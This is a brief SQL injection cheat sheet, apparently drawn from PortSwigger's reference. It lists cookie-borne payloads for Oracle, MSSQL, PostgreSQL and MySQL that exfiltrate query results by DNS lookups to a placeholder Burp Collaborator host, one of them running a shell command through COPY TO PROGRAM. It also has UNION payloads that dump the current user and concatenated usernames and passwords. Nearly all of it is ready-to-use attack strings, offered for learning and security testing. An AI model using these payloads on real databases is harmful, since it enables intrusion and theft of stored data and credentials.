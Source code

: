 ```sql
```

#### DNS lookup with data exfiltration 
##### Oracle 
```sql
Cookie: TrackingId=fLnCztNur00UGAsB' union (SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual) -- '
```
##### Microsoft
```sql
Cookie: TrackingId=fLnCztNur00UGAsB' || (declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.BURP-COLLABORATOR-SUBDOMAIN/a"')) --
```
##### PostgreSQL
```sql
Cookie: TrackingId=fLnCztNur00UGAsB' || (`create OR replace function f() returns void as $$   declare c text;   declare p text;   begin   SELECT into p (SELECT YOUR-QUERY-HERE);   c := 'copy (SELECT '''') to program ''nslookup '||p||'.BURP-COLLABORATOR-SUBDOMAIN''';   execute c;   END;   $$ language plpgsql security definer;   SELECT f();`) --
```
##### Mysql
```sql
-- works in windows only
Cookie: TrackingId=fLnCztNur00UGAsB' || (SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a')) --'
```

---
---
#### Finding usernames logged in
##### Mysql
```sql
catergory=lifstyle' union select 1,2,current_user() --
```
#### Concatenate
```sql
catergory=lifstyle' union select 1,2,concat(username,":",password) from users --
```
### References
- https://portswigger.net/web-security/sql-injection/cheat-sheet